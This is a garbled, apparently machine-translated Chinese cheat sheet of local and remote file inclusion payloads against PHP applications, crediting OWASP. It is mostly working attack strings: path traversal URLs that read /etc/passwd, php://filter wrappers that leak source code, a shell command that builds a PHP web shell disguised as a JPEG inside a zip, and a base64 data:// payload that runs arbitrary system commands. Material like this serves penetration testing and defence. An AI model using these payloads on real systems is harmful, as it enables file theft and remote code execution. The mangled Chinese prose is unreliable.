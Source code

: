 # 本地/远程文件夹
文件包含漏洞允许攻击者包括文件,通常利用在目标应用程序中实现的“动态文件包含”机制。

## 攻击
 
基本lfi ( null字节、双重编码和其他技巧)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

lfi包装器rot13和base64 :/示例不区分大小写
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php=pHp://FilTer/convert.base64-encode/resource=index.php
```

lfi包装器zip
```python
os.system("echo \"</pre><?php system($_GET['cmd']); ?></pre>\" > payload.php; zip payload.zip payload.php; mv payload.zip shell.jpg; rm payload.php")
				
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


带有“< ?PHP系统(得到[ ' ' cmd ] ) ;回声完成了!”;?>有效载荷
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```


通过RFI与“< < < SVG < > SVG =警报( 1 )>”有效负载
<svg onload=alert(1)>
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## 致谢
* https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion


